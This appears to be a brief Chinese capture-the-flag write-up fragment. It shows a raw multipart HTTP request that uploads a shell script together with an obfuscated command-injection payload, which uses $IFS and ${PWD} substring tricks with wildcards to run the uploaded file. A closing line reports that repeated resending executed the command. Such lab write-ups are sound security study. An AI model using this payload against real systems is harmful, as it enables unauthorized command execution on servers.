 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

ls
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

.$IFS${PWD:${Z}:${#SHLVL}}???${PWD:${Z}:${#SHLVL}}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交1
------WebKitFormBoundaryThAVkFWYrukHq9ZA--

```

遍历用instructor重复发包成功执行命令

![web118_resp](./image/web118_resp.png)
